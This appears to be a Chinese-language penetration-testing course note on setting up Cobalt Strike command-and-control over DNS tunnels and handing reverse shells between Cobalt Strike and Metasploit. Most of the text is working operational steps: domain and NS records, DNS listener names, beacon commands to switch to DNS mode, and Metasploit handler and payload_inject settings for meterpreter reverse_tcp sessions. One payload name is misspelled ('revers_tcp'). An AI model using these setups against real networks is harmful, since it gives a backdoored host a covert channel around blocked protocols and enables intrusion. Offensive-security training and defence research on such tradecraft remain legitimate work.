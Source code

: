 案例五 应用层 DNS 隧道配合 CS 上线-检测,利用

> 当常见协议监听器被拦截时，可以换其他协议上线，其中 dns 协议上线基本通杀
>
> CS生成的监听器实际上就是一个隧道，CS生成的监听器一定要看对方支持的协议什么，然后生成什么种类的监听器

```shell
1.云主机 Teamserver 配置端口 53 启用-udp
2.买一个域名修改解析记录如下：
A 记录->cs 主机名->CS 服务器 IP
NS 记录->ns1 主机名->上个 A 记录地址
NS 记录->ns2 主机名->上个 A 记录地址
3.配置 DNS 监听器内容如下：
ns1.xiaodi8.com
ns2.xiaodi8.com
cs.xiaodi8.com
4.生成后门执行上线后启用命令：
beacon> checkin
[*] Tasked beacon to checkin
beacon> mode dns-tx
```

MSF&CobaltStrike联动Shell

针对点不同，各种重点不同，因此要转发联动

```shell
cs 向 msf
创建Foriegn监听器-msf监听模块设置对应地址端口-cs执行spawn选择监听器
就是msf上的监听模块
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 5555
exploit

msf 向 cs
cs 创建监听器-msf载入新模块注入设置对应地址端口-执行cs等待上线
模块
use exploit/windows/local/payload_inject
set payload windows/meterpreter/revers_tcp(该模块与cs设置的监听器名字要一致)
set lport 5566
set lhost ip
set session 4(要反弹msf上的对应shell)
```